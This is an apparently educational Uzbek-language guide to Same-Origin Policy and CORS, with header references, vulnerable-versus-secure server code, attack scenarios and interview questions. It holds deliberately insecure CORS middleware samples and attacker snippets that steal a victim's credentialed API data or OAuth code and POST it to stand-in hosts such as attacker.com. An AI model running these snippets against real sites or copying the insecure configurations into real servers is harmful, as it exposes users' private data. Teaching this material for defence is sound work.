

# CORS (Cross-Origin Resource Sharing)

## Mundarija
1. [Same-Origin Policy](#same-origin-policy)
2. [CORS Nima?](#cors-nima)
3. [CORS Headers](#cors-headers)
4. [Preflight Requests](#preflight-requests)
5. [Zaif vs Xavfsiz Kod](#zaif-vs-xavfsiz-kod)
6. [Real Attack Scenarios](#real-attack-scenarios)
7. [Best Practices](#best-practices)
8. [Interview Savollari](#interview-savollari)

---

## Kirish

> [!IMPORTANT]
> **Nima uchun muhim?**  
> Agar bitta saytdan (masalan `my-shop.com`) o'tirib boshqa bir saytning serveriga (masalan `bank-api.com`) to'g'ridan-to'g'ri so'rov yuborish hammaga ruxsat etilganida, internetdagi barcha pullar o'g'irlab ketilgan bo'lardi. CORS va SOP aynan shu narsani bloklash va himoya qilish uchun o'ylab topilgan brauzer qoidalari. Buning ishlashini tushunmaslik front-end dasturchilar eng ko'p duch keladigan "CORS Error" muammolariga olib keladi.

> [!NOTE]
> **Real-hayot analogiyasi: "Qo'shni davlatga vizasiz kirish"**  
> Tasavvur qiling, har bir Origin (Domen) bu alohida bir Davlat. 
> - **SOP (Same-Origin Policy):** Bu davlatning chegarasi. Siz o'z davlatingizda bemalol yura olasiz, lekin boshqa davlatga (boshqa domen API-ga) shunchaki o'tib keta olmaysiz. Chegarachilar (Brauzer) sizni o'tkazmaydi.
> - **CORS (Cross-Origin Resource Sharing):** Bu sizning VIZAngiz. Boshqa davlat (API Server) o'ziga xos viza qoidalarini (CORS Headers) joriy qilishi mumkin: "Faqat A davlatdan (Origin) kelgan mehmonlarni kiritaman". Agar vizangiz bo'lsa (Server Origin'izni tasdiqlasa), Brauzer sizni u davlatga o'tkazadi.

## Same-Origin Policy

### Origin Nima?

```
URL: https://www.example.com:443/path/page.html

Origin = Protocol + Host + Port
       = https:// + www.example.com + :443

┌─────────────────────────────────────────────────────────────────────┐
│                         Origin Examples                              │
├─────────────────────────────────┬───────────────────────────────────┤
│ https://example.com             │ Origin A                          │
│ https://example.com:443         │ Origin A (443 default for HTTPS)  │
│ http://example.com              │ Origin B (different protocol)     │
│ https://www.example.com         │ Origin C (different subdomain)    │
│ https://example.com:8080        │ Origin D (different port)         │
│ https://api.example.com         │ Origin E (different subdomain)    │
└─────────────────────────────────┴───────────────────────────────────┘
```

### Same-Origin Policy (SOP)

```
SOP - Browser security feature:
- JavaScript bir origin'dan boshqa origin'dagi resource'larni O'QIY OLMAYDI
- Bu XSS va data theft'dan himoya qiladi

Ruxsat beriladi:
├── Script yuklash: <script src="https://other.com/script.js">
├── CSS yuklash: <link href="https://other.com/style.css">
├── Image yuklash: 
├── Media yuklash: <video>, <audio>
├── Embed: <iframe>, <object>
└── Form submit: <form action="https://other.com/submit">

RUXSAT BERILMAYDI (SOP bloklaydi):
├── fetch/XMLHttpRequest response O'QISH
├── Boshqa origin iframe content'ini O'QISH
├── window.opener cross-origin access
└── localStorage/sessionStorage/cookies boshqa origin
```

### Why SOP Exists

```javascript
// SOP bo'lmasa nima bo'lardi:

// User bank.com'ga login qilgan
// Keyin attacker.com sahifasini ochadi

// Attacker script (SOP bo'lmasa):
const bankData = await fetch('https://bank.com/api/accounts');
const accounts = await bankData.json();
// User'ning bank ma'lumotlarini o'g'irladi!

// Yoki:
const email = await fetch('https://gmail.com/api/emails');
// User'ning email'larini o'qidi!

// SOP bilan:
// fetch('https://bank.com/api/accounts')
// → CORS error: No 'Access-Control-Allow-Origin' header
// → Response o'qib bo'lmaydi
```

---

## CORS Nima?

CORS (Cross-Origin Resource Sharing) - bu SOP'ni selective ravishda bypass qilish mexanizmi.

### CORS Flow

```
┌────────────────────────────────────────────────────────────────────────┐
│                         CORS Basic Flow                                 │
├────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  Browser (Origin A)                              Server (Origin B)      │
│  https://app.com                                 https://api.com        │
│                                                                         │
│        │                                              │                 │
│        │  1. fetch('https://api.com/data')            │                 │
│        │                                              │                 │
│        │  Request:                                    │                 │
│        │  ─────────────────────────────────────────▶  │                 │
│        │  Origin: https://app.com                     │                 │
│        │                                              │                 │
│        │                                              │                 │
│        │  2. Response:                                │                 │
│        │  ◀─────────────────────────────────────────  │                 │
│        │  Access-Control-Allow-Origin: https://app.com                  │
│        │  (data payload)                              │                 │
│        │                                              │                 │
│        │  3. Browser checks header                    │                 │
│        │     - ACAO matches Origin? ✅                │                 │
│        │     - Allow JavaScript to read response      │                 │
│        │                                              │                 │
└────────────────────────────────────────────────────────────────────────┘
```

### Simple vs Preflight Requests

```
┌─────────────────────────────────────────────────────────────────────┐
│                    Simple Request Conditions                         │
├─────────────────────────────────────────────────────────────────────┤
│ Method: GET, HEAD, POST                                              │
│                                                                      │
│ Headers (faqat quyidagilar):                                        │
│   - Accept                                                           │
│   - Accept-Language                                                  │
│   - Content-Language                                                 │
│   - Content-Type (faqat):                                           │
│       * application/x-www-form-urlencoded                           │
│       * multipart/form-data                                          │
│       * text/plain                                                   │
│                                                                      │
│ No ReadableStream body                                               │
│ No event listeners on XMLHttpRequestUpload                          │
└─────────────────────────────────────────────────────────────────────┘

Simple request → Direct request (no preflight)
Non-simple request → Preflight first (OPTIONS)
```

---

## CORS Headers

### Response Headers

```http
# Basic - single origin allow
Access-Control-Allow-Origin: https://app.example.com

# All origins (NOT recommended for credentials)
Access-Control-Allow-Origin: *

# Allowed methods
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS

# Allowed request headers
Access-Control-Allow-Headers: Content-Type, Authorization, X-Requested-With

# Allow credentials (cookies, auth headers)
Access-Control-Allow-Credentials: true

# How long to cache preflight response
Access-Control-Max-Age: 86400

# Which response headers JS can read
Access-Control-Expose-Headers: X-Custom-Header, X-Another-Header
```

### Request Headers (Browser)

```http
# Requesting origin
Origin: https://app.example.com

# Preflight: actual request method
Access-Control-Request-Method: PUT

# Preflight: actual request headers
Access-Control-Request-Headers: Content-Type, Authorization
```

### Header Relationships

```
┌─────────────────────────────────────────────────────────────────────┐
│                    CORS Header Flow                                  │
├─────────────────────────────────────────────────────────────────────┤
│                                                                      │
│  Browser Request Headers:          Server Response Headers:          │
│                                                                      │
│  Origin ─────────────────────────▶ Access-Control-Allow-Origin      │
│  (Required)                        (Must match or *)                 │
│                                                                      │
│  Access-Control-Request-Method ──▶ Access-Control-Allow-Methods     │
│  (Preflight only)                  (Must include method)             │
│                                                                      │
│  Access-Control-Request-Headers ─▶ Access-Control-Allow-Headers     │
│  (Preflight only)                  (Must include all headers)        │
│                                                                      │
│  credentials: 'include' ─────────▶ Access-Control-Allow-Credentials │
│  (fetch option)                    (Must be 'true')                  │
│                                                                      │
└─────────────────────────────────────────────────────────────────────┘
```

---

## Preflight Requests

### When Preflight Happens

```javascript
// Simple request - NO preflight
fetch('https://api.com/data');

fetch('https://api.com/data', {
  method: 'POST',
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
  body: 'name=value'
});

// Preflight REQUIRED
fetch('https://api.com/data', {
  method: 'PUT'  // Non-simple method
});

fetch('https://api.com/data', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'  // Non-simple content-type
  }
});

fetch('https://api.com/data', {
  headers: {
    'Authorization': 'Bearer token',  // Custom header
    'X-Custom': 'value'
  }
});

fetch('https://api.com/data', {
  method: 'DELETE'  // Non-simple method
});
```

### Preflight Flow


---

## Zaif vs Xavfsiz Kod

### 1. Wildcard with Credentials

```javascript
// ❌ ZAIF: * bilan credentials
// Bu ISHLAMAYDI - browser reject qiladi
// Lekin ba'zi server'lar noto'g'ri konfiguratsiya
app.use((req, res, next) => {
  res.header('Access-Control-Allow-Origin', '*');
  res.header('Access-Control-Allow-Credentials', 'true');  // CONFLICT!
  next();
});

// Browser:
// "Cannot use wildcard in Access-Control-Allow-Origin
// when credentials flag is true"

// ✅ XAVFSIZ: Specific origin
app.use((req, res, next) => {
  const allowedOrigins = ['https://app.example.com', 'https://admin.example.com'];
  const origin = req.headers.origin;

  if (allowedOrigins.includes(origin)) {
    res.header('Access-Control-Allow-Origin', origin);
    res.header('Access-Control-Allow-Credentials', 'true');
  }

  next();
});
```

### 2. Reflecting Origin Without Validation

```javascript
// ❌ ZAIF: Har qanday origin'ni qabul qilish
app.use((req, res, next) => {
  // Origin'ni tekshirmasdan reflect qilish
  res.header('Access-Control-Allow-Origin', req.headers.origin);
  res.header('Access-Control-Allow-Credentials', 'true');
  next();
});

// Hujumchi:
// Origin: https://attacker.com
// Server: Access-Control-Allow-Origin: https://attacker.com
// → Attacker cookie bilan request yuborib, response o'qiy oladi!

// ✅ XAVFSIZ: Whitelist bilan tekshirish
const allowedOrigins = new Set([
  'https://app.example.com',
  'https://www.example.com',
  'https://admin.example.com'
]);

app.use((req, res, next) => {
  const origin = req.headers.origin;

  if (origin && allowedOrigins.has(origin)) {
    res.header('Access-Control-Allow-Origin', origin);
    res.header('Access-Control-Allow-Credentials', 'true');
  }

  next();
});
```

### 3. Null Origin Trust

```javascript
// ❌ ZAIF: null origin'ni trust qilish
app.use((req, res, next) => {
  const origin = req.headers.origin;

  // null origin ham qabul qilinadi
  if (origin === 'null' || allowedOrigins.includes(origin)) {
    res.header('Access-Control-Allow-Origin', origin);
    res.header('Access-Control-Allow-Credentials', 'true');
  }

  next();
});

// Hujumchi sandboxed iframe ishlatadi:
// <iframe sandbox="allow-scripts" src="attack.html">
// Bu iframe Origin: null yuboradi
// Server ishonadi va response beradi

// ✅ XAVFSIZ: null'ni reject qilish
if (origin && origin !== 'null' && allowedOrigins.has(origin)) {
  // ...
}
```

### 4. Subdomain Wildcard

```javascript
// ❌ ZAIF: Regex bilan subdomain matching
app.use((req, res, next) => {
  const origin = req.headers.origin;

  // Regex vulnerable to bypass
  if (origin && origin.match(/\.example\.com$/)) {
    res.header('Access-Control-Allow-Origin', origin);
  }

  next();
});

// Hujumchi: evil.example.com.attacker.com
// Regex match bo'lmaydi, lekin:
// attacker-example.com - bu ham match bo'lmaydi

// Lekin: hujumchi subdomain register qilsa: evil.example.com
// Agar example.com subdomain takeover vulnerable bo'lsa - xavfli

// ✅ XAVFSIZ: Strict validation
const isAllowedOrigin = (origin) => {
  if (!origin) return false;

  try {
    const url = new URL(origin);
    const hostname = url.hostname;

    // Exact match
    const allowedHosts = ['app.example.com', 'api.example.com', 'www.example.com'];
    return allowedHosts.includes(hostname);

    // Yoki: parent domain check
    // return hostname === 'example.com' || hostname.endsWith('.example.com');
  } catch {
    return false;
  }
};
```

### 5. Missing Vary Header

```javascript
// ❌ ZAIF: Vary header yo'q
app.use((req, res, next) => {
  const origin = req.headers.origin;

  if (allowedOrigins.has(origin)) {
    res.header('Access-Control-Allow-Origin', origin);
  }

  next();
});

// Muammo: CDN/Proxy caching
// Request 1: Origin: https://app.com → Response cached with ACAO: https://app.com
// Request 2: Origin: https://other.com → Cached response qaytariladi
// other.com app.com uchun ACAO'ni oladi = potential security issue

// ✅ XAVFSIZ: Vary header qo'shish
app.use((req, res, next) => {
  const origin = req.headers.origin;

  if (allowedOrigins.has(origin)) {
    res.header('Access-Control-Allow-Origin', origin);
  }

  // Har Origin uchun alohida cache
  res.header('Vary', 'Origin');

  next();
});
```

### 6. Exposing Sensitive Headers

```javascript
// ❌ ZAIF: Barcha header'larni expose qilish
res.header('Access-Control-Expose-Headers', '*');
// Yoki sensitive header'lar:
res.header('Access-Control-Expose-Headers', 'X-Auth-Token, Authorization, Set-Cookie');

// ✅ XAVFSIZ: Faqat kerakli header'lar
res.header('Access-Control-Expose-Headers', 'X-Request-Id, X-RateLimit-Remaining');
```

---

## Real Attack Scenarios

### Scenario 1: CORS Misconfiguration Data Theft

```javascript
// Zaif server:
app.use((req, res, next) => {
  res.header('Access-Control-Allow-Origin', req.headers.origin);
  res.header('Access-Control-Allow-Credentials', 'true');
  next();
});

// Hujumchi sahifasi (attacker.com):
<script>
  fetch('https://vulnerable-api.com/api/user/data', {
    credentials: 'include'  // Victim's cookies
  })
  .then(response => response.json())
  .then(data => {
    // Victim ma'lumotlarini o'g'irlash
    fetch('https://attacker.com/collect', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>

// Victim bu sahifani ochganda:
// 1. Request vulnerable-api.com'ga yuboriladi
// 2. Victim cookie'lari qo'shiladi
// 3. Server attacker.com origin'ni qabul qiladi
// 4. Browser response o'qishga ruxsat beradi
// 5. Attacker victim data'sini oladi
```

### Scenario 2: OAuth Token Theft

```javascript
// OAuth callback endpoint CORS misconfigured
// https://auth.example.com/callback?code=xxx

// Attacker:
<script>
  // OAuth flow'ni hijack qilish
  const authUrl = 'https://auth.example.com/authorize?' +
    'client_id=legit_app&' +
    'redirect_uri=https://auth.example.com/callback&' +
    'response_type=code&' +
    'scope=profile';

  // Popup ochish
  const popup = window.open(authUrl, '_blank', 'width=500,height=600');

  // Callback'dan code olish
  window.addEventListener('message', (e) => {
    if (e.data.type === 'oauth_callback') {
      const code = e.data.code;
      // Attacker code'ni o'g'irladi
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify({ code })
      });
    }
  });
</script>
```

### Scenario 3: Internal API Exposure

```javascript
// Internal API faqat internal origin'lar uchun
// Lekin CORS misconfigured

// Server (internal-api.corp.com):
app.use((req, res, next) => {
  // Internal IP check - bypass qilinishi mumkin
  const origin = req.headers.origin;
  if (origin && origin.includes('corp.com')) {
    res.header('Access-Control-Allow-Origin', origin);
  }
  next();
});

// Attacker: evil.corp.com.attacker.com subdomain
// Yoki: DNS rebinding attack

// Attacker code:
fetch('https://internal-api.corp.com/admin/users', {
  credentials: 'include'
})
.then(r => r.json())
.then(users => {
  // Internal user list o'g'irildi
});
```

### Scenario 4: CORS + Cache Poisoning

```javascript
// CDN cached response + CORS misconfiguration

// Attacker malicious Origin yuboradi:
// Origin: https://attacker.com

// Server:
// Access-Control-Allow-Origin: https://attacker.com
// (+ sensitive data)

// CDN bu response'ni cache qiladi

// Keyingi legitimate user:
// CDN cached response qaytaradi
// ACAO: https://attacker.com (noto'g'ri!)

// Yoki: Vary header yo'q bo'lsa
// Boshqa origin uchun wrong ACAO cache'dan keladi
```

---

## Best Practices

### 1. Express CORS Configuration

```javascript
const cors = require('cors');

// Production configuration
const corsOptions = {
  origin: (origin, callback) => {
    // Allow requests with no origin (mobile apps, curl)
    if (!origin) {
      return callback(null, true);
    }

    const allowedOrigins = [
      'https://app.example.com',
      'https://www.example.com',
      'https://admin.example.com'
    ];

    if (allowedOrigins.includes(origin)) {
      callback(null, true);
    } else {
      callback(new Error('Not allowed by CORS'));
    }
  },
  credentials: true,
  methods: ['GET', 'POST', 'PUT', 'DELETE', 'PATCH'],
  allowedHeaders: ['Content-Type', 'Authorization', 'X-Requested-With'],
  exposedHeaders: ['X-Request-Id'],
  maxAge: 86400,  // 24 hours preflight cache
  preflightContinue: false,
  optionsSuccessStatus: 204
};

app.use(cors(corsOptions));

// Per-route CORS
app.get('/public-api', cors({ origin: '*' }), (req, res) => {
  // Public endpoint - no credentials
});

app.get('/private-api', cors(corsOptions), (req, res) => {
  // Private endpoint - restricted origins
});
```

### 2. Environment-Based Configuration

```javascript
const getAllowedOrigins = () => {
  if (process.env.NODE_ENV === 'development') {
    return [
      'http://localhost:3000',
      'http://localhost:8080',
      'http://127.0.0.1:3000'
    ];
  }

  if (process.env.NODE_ENV === 'staging') {
    return [
      'https://staging.example.com',
      'https://staging-admin.example.com'
    ];
  }

  // Production
  return [
    'https://app.example.com',
    'https://www.example.com',
    'https://admin.example.com'
  ];
};

const corsOptions = {
  origin: (origin, callback) => {
    const allowed = getAllowedOrigins();
    if (!origin || allowed.includes(origin)) {
      callback(null, true);
    } else {
      console.warn(`Blocked CORS request from: ${origin}`);
      callback(new Error('CORS not allowed'));
    }
  }
};
```

### 3. Nginx CORS Configuration

```nginx
# nginx.conf

server {
    listen 443 ssl;
    server_name api.example.com;

    # CORS headers
    set $cors_origin "";
    set $cors_credentials "true";

    if ($http_origin ~* "^https://(app|www|admin)\.example\.com$") {
        set $cors_origin $http_origin;
    }

    # Preflight requests
    if ($request_method = 'OPTIONS') {
        add_header 'Access-Control-Allow-Origin' $cors_origin always;
        add_header 'Access-Control-Allow-Methods' 'GET, POST, PUT, DELETE, OPTIONS' always;
        add_header 'Access-Control-Allow-Headers' 'Content-Type, Authorization, X-Requested-With' always;
        add_header 'Access-Control-Allow-Credentials' $cors_credentials always;
        add_header 'Access-Control-Max-Age' 86400 always;
        add_header 'Content-Length' 0;
        add_header 'Content-Type' 'text/plain charset=UTF-8';
        return 204;
    }

    # Actual requests
    add_header 'Access-Control-Allow-Origin' $cors_origin always;
    add_header 'Access-Control-Allow-Credentials' $cors_credentials always;
    add_header 'Vary' 'Origin' always;

    location /api/ {
        proxy_pass http://backend;
    }
}
```

### 4. Frontend CORS Handling

```javascript
// Axios interceptor
import axios from 'axios';

const api = axios.create({
  baseURL: 'https://api.example.com',
  withCredentials: true,  // Send cookies
  timeout: 10000
});

// Error handling
api.interceptors.response.use(
  response => response,
  error => {
    if (error.message === 'Network Error') {
      // CORS error ko'pincha "Network Error" sifatida ko'rinadi
      console.error('CORS or network error. Check server configuration.');

      // User-friendly message
      return Promise.reject({
        message: 'Unable to connect to server. Please try again.',
        isCorsError: true
      });
    }

    return Promise.reject(error);
  }
);

// Fetch with CORS
const fetchWithCors = async (url, options = {}) => {
  try {
    const response = await fetch(url, {
      ...options,
      credentials: 'include',
      mode: 'cors',
      headers: {
        'Content-Type': 'application/json',
        ...options.headers
      }
    });

    if (!response.ok) {
      throw new Error(`HTTP error: ${response.status}`);
    }

    return response.json();
  } catch (error) {
    if (error.name === 'TypeError' && error.message.includes('Failed to fetch')) {
      console.error('Possible CORS error');
    }
    throw error;
  }
};
```

### 5. Security Checklist

```
□ Whitelist specific origins (no wildcard with credentials)
□ Validate Origin header on server
□ Add Vary: Origin header for caching
□ Don't trust null origin
□ Limit exposed headers to necessary ones
□ Set appropriate Max-Age for preflight caching
□ Use environment-based origin lists
□ Log blocked CORS requests for monitoring
□ Regular audit of allowed origins
□ Remove development origins in production
□ Test CORS configuration with different origins
□ Handle CORS errors gracefully on frontend
```

---

## Interview Savollari

### 1. Same-Origin Policy nima va u nimadan himoya qiladi?

**Javob:**

Same-Origin Policy (SOP) - bu brauzer security feature bo'lib, bir origin'dagi script'ning boshqa origin'dagi resource'larni o'qishini bloklaydi.

**Origin = Protocol + Host + Port**

**Nimadan himoya qiladi:**
1. **Data theft:** Attacker.com victim'ning bank.com ma'lumotlarini o'qiy olmaydi
2. **Session hijacking:** Cross-site cookie/token o'qish bloklanadi
3. **CSRF mitigation:** Response o'qish mumkin emas

**SOP ruxsat beradi:**
- Script/CSS/Image yuklash (content o'qish emas)
- Form submit (response o'qish emas)

**SOP bloklaydi:**
- fetch/XHR response o'qish
- Cross-origin iframe content access
- localStorage/cookie access

---

### 2. CORS qanday ishlaydi va qachon preflight bo'ladi?

**Javob:**

**CORS mexanizmi:**
1. Browser `Origin` header qo'shadi
2. Server `Access-Control-Allow-Origin` header qaytaradi
3. Browser header'larni tekshiradi
4. Match bo'lsa - response JS'ga beriladi

**Preflight (OPTIONS request) qachon bo'ladi:**
- Non-simple methods: PUT, DELETE, PATCH
- Custom headers: Authorization, X-Custom
- Content-Type: application/json

**Simple request (preflight yo'q):**
- Methods: GET, HEAD, POST
- Headers: Accept, Content-Type (form data only)
- Content-Type: application/x-www-form-urlencoded, multipart/form-data, text/plain

**Preflight flow:**
```
1. OPTIONS /api/data
   Access-Control-Request-Method: PUT
   Access-Control-Request-Headers: Content-Type

2. 204 No Content
   Access-Control-Allow-Methods: PUT
   Access-Control-Allow-Headers: Content-Type

3. Actual PUT request
```

---

### 3. Nima uchun `Access-Control-Allow-Origin: *` credentials bilan ishlamaydi?

**Javob:**

**Security sababi:**
- `*` = har qanday sayt
- Credentials = cookies, auth headers
- Ikkalasi birga = har qanday sayt user cookies bilan request yuborishi va response o'qishi mumkin = data theft

**Browser enforced rule:**
```javascript
// Browser reject qiladi:
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true

// Error: "Cannot use wildcard with credentials"
```

**Yechim:**
```javascript
// Specific origin reflect qilish
Access-Control-Allow-Origin: https://trusted-app.com
Access-Control-Allow-Credentials: true
```

**Xavfli pattern:**
```javascript
// ❌ Origin reflect qilish (barcha origin)
res.header('ACAO', req.headers.origin);
res.header('ACAC', 'true');
// = * bilan bir xil xavfli!
```

---

### 4. CORS misconfiguration qanday exploit qilinadi?

**Javob:**

**Zaif konfiguratsiya:**
```javascript
res.header('Access-Control-Allow-Origin', req.headers.origin);
res.header('Access-Control-Allow-Credentials', 'true');
```

**Exploit:**
```javascript
// Attacker sahifasi
fetch('https://vulnerable-api.com/user/data', {
  credentials: 'include'  // Victim cookies
})
.then(r => r.json())
.then(data => {
  // Victim ma'lumotlari o'g'irildi
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

**Nima sodir bo'ladi:**
1. Victim attacker sahifasini ochadi
2. Request victim cookies bilan vulnerable API'ga
3. Server attacker origin'ni allow qiladi
4. Browser response o'qishga ruxsat beradi
5. Data attacker serveriga yuboriladi

---

### 5. CORS bilan bog'liq xavfsizlik checklist?

**Javob:**

**Must Do:**
- [ ] Whitelist specific origins (no dynamic reflection)
- [ ] Never use `*` with credentials
- [ ] Add `Vary: Origin` header
- [ ] Reject `null` origin
- [ ] Validate origin on server-side
- [ ] Limit exposed headers

**Must NOT Do:**
- [ ] Reflect arbitrary Origin header
- [ ] Trust Origin header blindly
- [ ] Use regex without proper anchoring
- [ ] Forget environment-specific config
- [ ] Leave development origins in production

**Logging/Monitoring:**
- Log blocked CORS requests
- Alert on unusual origin patterns
- Audit allowed origins periodically

---

## Eng Yaxshi Amaliyotlar (Best Practices)

1. **`*` ishlata ko'rmang (Wildcard):** Serverda `Access-Control-Allow-Origin: *` qo'yish (hamma domenga ruxsat berish) eng katta xavfsizlik xatolaridan biridir, ayniqsa agar tizim credentials (cookie/token) ishlatsa. Haqiqiy originni aniq sanab o'ting (whitelist).
2. **Preflight Keshlang:** OPTIONS so'rovlari tarmog'ni juda sekinlashtiradi. Uni har safar qayta-qayta yubormasligi uchun server tarafda `Access-Control-Max-Age` header ni uzoqroq vaqtga (masalan 24 soat) sozlab qo'ying.
3. **Regex xatolari:** Backendda Origin'ni tekshirish uchun Regex yozayotganda, oxirini va boshini qat'iy belgilang (`^https:\/\/my-site\.com$`). Aks holda qaroqchi `https://my-site.com.attacker.com` kabi origin bilan tizimga kirib olishi mumkin.
4. **Faqatgina Brauzerlar:** Esdan chiqarmangki, CORS faqat Brauzerlar uchun yozilgan xavfsizlik cheklovidir. Postman, Curl yoki boshqa backend serverlar CORS ga mutlaqo bepisandlik bilan qaraydi va u yerda error chiqmaydi.

---

## Xulosa

CORS shunchaki ishlab chiquvchilarni qiynash uchun o'ylab topilmagan. U aslida foydalanuvchilar xavfsizligi va shaxsiy ma'lumotlar o'g'irlanmasligi uchun SOP ning qo'shimcha "viza" tizimidir. Uni to'g'ri ishlata bilish nafaqat frontend, balki backend uchun ham hayotiy ahamiyatga egadir.
